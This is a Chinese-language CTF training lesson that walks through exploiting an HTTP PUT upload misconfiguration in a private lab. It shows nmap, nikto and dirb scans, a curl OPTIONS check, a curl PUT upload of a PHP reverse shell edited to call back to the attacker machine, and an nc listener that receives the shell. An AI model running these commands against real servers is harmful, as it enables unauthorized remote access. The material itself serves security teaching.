# CTF最强战队蓝莲花内部培训教程：P22：23.PUT上传漏洞 🚩

在本节课中，我们将学习CTF训练中的中间件PUT漏洞。通过该漏洞，我们可以从外部获取主机的最高权限，最终得到对应的flag值。

## 概述

PUT上传漏洞源于某些中间件（如Apache、Tomcat、IIS、WebLogic等）配置不当，允许客户端使用HTTP PUT方法直接向服务器上传文件。攻击者可以利用此方法上传Web Shell，从而控制服务器。





## 实验环境介绍

*   **攻击机**：Kali Linux，IP地址为 `192.168.1.111`。
*   **靶机**：Linux系统，IP地址为 `192.168.1.102`。

我们的目标是获取靶机的root权限并读取flag值。





## 第一步：信息收集

在进行任何攻击操作前，首先需要对目标进行信息收集，以发现潜在的突破口。

### 端口扫描

我们使用Nmap工具扫描靶机开放的所有端口，以了解其运行的服务。

以下是扫描命令：
```bash
nmap -T4 -p- 192.168.1.102
```
*   `-T4`：设置扫描速度为最快。
*   `-p-`：扫描所有端口（1-65535）。

扫描结果显示，靶机开放了**22端口（SSH服务）**和**80端口（HTTP服务）**。

### 全面信息探测

为了获取更详细的信息，我们使用Nmap的`-A`选项进行更全面的探测。

以下是探测命令：
```bash
nmap -T4 -A -v 192.168.1.102
```
此命令会探测服务版本、操作系统等信息。从结果中，我们重点关注80端口，发现其运行的中间件支持多种HTTP方法。





### Web应用敏感信息探测

针对开放的HTTP服务，我们使用`nikto`和`dirb`工具进行敏感目录和文件探测。

*   **使用nikto扫描**：
    ```bash
    nikto -host http://192.168.1.102
    ```
    nikto扫描结果显示服务器使用PHP 5.3.1，但未发现高危漏洞。

*   **使用dirb扫描目录**：
    ```bash
    dirb http://192.168.1.102
    ```
    dirb扫描发现了一个名为`/test/`的目录。

## 第二步：漏洞验证与分析

虽然自动化扫描工具未发现明显漏洞，但我们需要手动验证潜在风险点。

### 检查HTTP方法

我们访问`/test/`目录，发现是一个空目录。接下来，使用`curl`命令检查该目录支持的HTTP方法。

以下是检查命令：
```bash
curl -v -X OPTIONS http://192.168.1.102/test/
```
服务器返回的响应头中包含了`Allow: GET, HEAD, POST, PUT, DELETE, OPTIONS`。**关键发现是，该目录支持PUT方法**，这为文件上传漏洞提供了可能。



### 使用漏洞扫描器辅助验证

我们使用OWASP ZAP对Web应用进行自动化漏洞扫描，但仅发现一些中低危漏洞，如缺少安全头（X-Frame-Options）和目录浏览漏洞，未直接发现可利用的高危点。这进一步说明需要手动深入测试PUT方法。



## 第三步：利用PUT漏洞上传Web Shell



确认存在PUT漏洞后，我们的攻击思路是：上传一个Web Shell到服务器，然后访问并执行该Shell，从而获得一个反向连接（反弹Shell）到我们的攻击机。



### 1. 准备Web Shell



我们使用一个PHP反弹Shell脚本。首先在Kali中定位并复制该脚本。



```bash
# 查找PHP Web Shell位置
locate php-reverse-shell
# 复制到桌面并重命名
cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/shell.php
```
接着，编辑`shell.php`文件，将其中的连接IP和端口修改为攻击机的IP和监听端口。
```php
// 修改前
$ip = '127.0.0.1';
$port = 1234;

// 修改后（假设攻击机IP为192.168.1.111，监听443端口）
$ip = '192.168.1.111';
$port = 443;
```



### 2. 利用PUT方法上传文件







我们使用浏览器插件“Postman”或直接使用`curl`命令来发送PUT请求上传文件。

以下是使用`curl`上传的命令示例：
```bash
curl -v -X PUT --data-binary @/home/kali/Desktop/shell.php http://192.168.1.102/test/shell.php
```
上传成功后，访问`http://192.168.1.102/test/shell.php`，应能看到上传的文件。

### 3. 在攻击机开启监听

在Web Shell执行前，我们需要在攻击机上开启一个网络监听器，等待靶机连接回来。





以下是使用`netcat (nc)`开启监听的命令：
```bash
nc -nlvp 443
```
*   `-nlvp`：无DNS解析、监听模式、显示详细信息、指定端口。

### 4. 触发Web Shell执行

在浏览器中直接访问上传的Web Shell文件地址（`http://192.168.1.102/test/shell.php`）。此时，PHP代码会在靶机上执行，并尝试向攻击机（`192.168.1.111:443`）发起连接。



如果一切顺利，我们将在`nc`监听窗口中看到成功的连接，并获得一个来自靶机的Shell会话。

## 第四步：初步权限获取与后续



成功反弹Shell后，我们首先检查当前用户的权限。
```bash
whoami
id
```
通常，通过Web漏洞获取的初始Shell权限较低（例如`www-data`用户）。本节课我们成功获得了初始访问权限。提升权限至root（提权）的方法将在后续课程中详细介绍。



## 总结

本节课我们一起学习了PUT上传漏洞的完整利用流程：
1.  **信息收集**：使用Nmap、nikto、dirb等工具探测目标。
2.  **漏洞发现**：通过检查HTTP OPTIONS方法，发现目标目录支持PUT方法。
3.  **漏洞利用**：利用PUT方法上传精心构造的PHP Web Shell。
4.  **建立控制**：在攻击机开启监听，通过触发Web Shell获得反向连接，从而控制靶机。

PUT漏洞的利用关键在于发现支持该方法的未授权目录，并成功上传可执行脚本。在实战或CTF比赛中，需灵活结合自动化工具与手动测试，才能有效发现并利用此类漏洞。